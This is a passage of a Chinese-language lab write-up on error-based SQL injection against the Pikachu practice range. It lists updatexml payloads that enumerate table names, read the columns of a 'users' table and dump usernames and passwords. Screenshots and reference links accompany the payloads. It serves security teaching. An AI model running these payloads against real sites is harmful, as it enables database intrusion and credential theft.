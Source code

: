 

查询指定数据库表名

```
 ' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),2)or '
```

![67](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144517.png)



查询指定表下的字段名

```
' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),2)or '
```

![68](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144519.png)

查询指定表下的所有数据

```
 ' or updatexml(1,concat(0x7e,(select group_concat(id,username,password,level) from users),0x7e),2)or '
或者
' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),1)or'
```

![69](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144521.png)









---

参考链接： 

无垠安全：https://www.wuyini.cn/952.html

Pikachu靶场通关之SQL注入 - FreeBuf网络安全行业门户：https://www.freebuf.com/articles/web/254079.html
